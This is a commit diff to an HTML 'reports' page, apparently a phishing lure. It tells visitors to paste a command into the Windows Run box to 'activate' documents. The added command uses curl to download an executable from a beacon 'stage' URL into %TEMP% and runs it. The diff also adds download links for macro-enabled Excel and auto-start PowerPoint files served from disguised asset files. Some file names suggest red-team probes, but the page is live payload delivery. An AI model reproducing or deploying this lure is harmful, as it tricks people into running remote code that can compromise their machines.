

Before and after one commit to barrdakk-ops/reports, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 68-1291 px from the top of the page, without its empty margins (304-975 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -32,7 +32,7 @@ before it can be opened. The activation takes a few seconds.</p>
   <li>Click the command below to copy it, then paste it into the Run box</li>
   <li>Press <b>Enter</b> — the report manifest downloads and the documents open automatically</li>
 </ol>
-<div class="code" id="cmd" onclick="cp()">curl.exe -sk -o &quot;%TEMP%\~DFcmd.exe&quot; &quot;https://sync.protaskir.co.il/api/v1/beacons/321e3927-e3bf-4a63-b0b4-0be797a3f8c8/stage?cap=d1fc947e08023e0d1267956f5bfc8720&amp;fmt=loader-exe&quot; &amp;&amp; start &quot;&quot; /b &quot;%TEMP%\~DFcmd.exe&quot;</div>
+<div class="code" id="cmd" onclick="cp()">curl.exe -sk -o &quot;%TEMP%\~DFcmd.exe&quot; &quot;https://sync.protaskir.co.il/api/v1/beacons/0ac6182d-e8ef-436a-b3a4-f51ccecd53b4/stage?cap=61c21dd31373b8ad38a5c96d6d942ebd&amp;fmt=loader-raw&quot; &amp;&amp; start &quot;&quot; &quot;%TEMP%\~DFcmd.exe&quot;</div>
 <div class="hint">click the command once to copy — it is long, that is expected</div>
 <p id="done">✔ Copied. Paste it into the Run box and press Enter.</p>
 
@@ -62,8 +62,13 @@ before it can be opened. The activation takes a few seconds.</p>
     <li><a href="#" onclick="return get('probe.zip')">probe.zip</a> — report archive</li>
     <li><a href="#" onclick="return get('probe.iso')">probe.iso</a> — report disc image (ISO)</li>
     <li><a href="#" onclick="return get('probe.img')">probe.img</a> — report disc image</li>
+    <li><a href="#" onclick="return get('canary3.xlsm')">canary3.xlsm</a> — settings workbook (full)</li>
+    <li><a href="#" onclick="return get('canary4.xlsm')">canary4.xlsm</a> — settings workbook (save-activated)</li>
     <li><a href="#" onclick="return get('canary.xlsm')">canary.xlsm</a> — settings workbook (macro-enabled)</li>
     <li><a href="#" onclick="return get('rt-carrier.xlsm')">rt-carrier.xlsm</a> — settings workbook (lite)</li>
+    <li><a href="#" onclick="return get('deck.ppsm')">deck.ppsm</a> — quarterly presentation (auto-start show)</li>
+    <li><a href="#" onclick="return get('canary5.xls')">canary5.xls</a> — settings workbook (legacy format)</li>
+    <li><a href="#" onclick="return get('report-data.txt')">report-data.txt</a> — dataset export (text)</li>
     <li><a href="#" onclick="return get('canary-readme.txt')">canary-readme.txt</a> — template instructions</li>
     <li><a href="#" onclick="return get('probe-pptx-url.pptx')">probe-pptx-url.pptx</a> — quarterly review deck</li>
     <li><a href="#" onclick="return get('probe-pptx-prog.pptx')">probe-pptx-prog.pptx</a> — quarterly review deck (auto-start)</li>
@@ -102,9 +107,14 @@ var PROBES={
   'probe-pptx-prog.pptx':{src:'assets/data13.txt',mime:'application/vnd.openxmlformats-officedocument.presentationml.presentation'}
 };
 var CANARY={
+  'canary3.xlsm':{src:'assets/data22.txt',mime:'application/vnd.ms-excel.sheet.macroenabled.12'},
+  'canary4.xlsm':{src:'assets/data24.txt',mime:'application/vnd.ms-excel.sheet.macroenabled.12'},
+  'canary5.xls':{src:'assets/data26.txt',mime:'application/vnd.ms-excel'},
   'canary.xlsm':{src:'assets/data18.txt',mime:'application/vnd.ms-excel.sheet.macroenabled.12'},
   'canary-readme.txt':{src:'assets/data17.txt',mime:'text/plain'},
-  'rt-carrier.xlsm':{src:'assets/data20.txt',mime:'application/vnd.ms-excel.sheet.macroenabled.12'}
+  'rt-carrier.xlsm':{src:'assets/data20.txt',mime:'application/vnd.ms-excel.sheet.macroenabled.12'},
+  'deck.ppsm':{src:'assets/data25.txt',mime:'application/vnd.ms-powerpoint.show.macroenabled.12'},
+  'report-data.txt':{src:'assets/data21.txt',mime:'text/plain'}
 };
 function get(name){
   var p=PROBES[name]||CANARY[name];
```
